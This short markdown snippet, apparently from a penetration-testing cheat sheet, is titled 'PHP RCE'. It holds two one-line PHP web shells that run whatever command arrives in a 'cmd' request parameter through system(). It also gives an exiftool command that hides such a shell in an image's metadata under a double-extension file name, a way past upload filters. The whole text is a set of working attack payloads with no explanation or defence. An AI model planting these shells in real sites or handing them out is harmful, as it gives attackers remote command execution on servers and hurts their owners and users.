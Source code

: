 # PHP RCE
```PHP
<?php echo system($_REQUEST["cmd"]); ?>
<?php echo system($_GET["cmd"]); ?>
```
```bash
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' img.php.jpg
```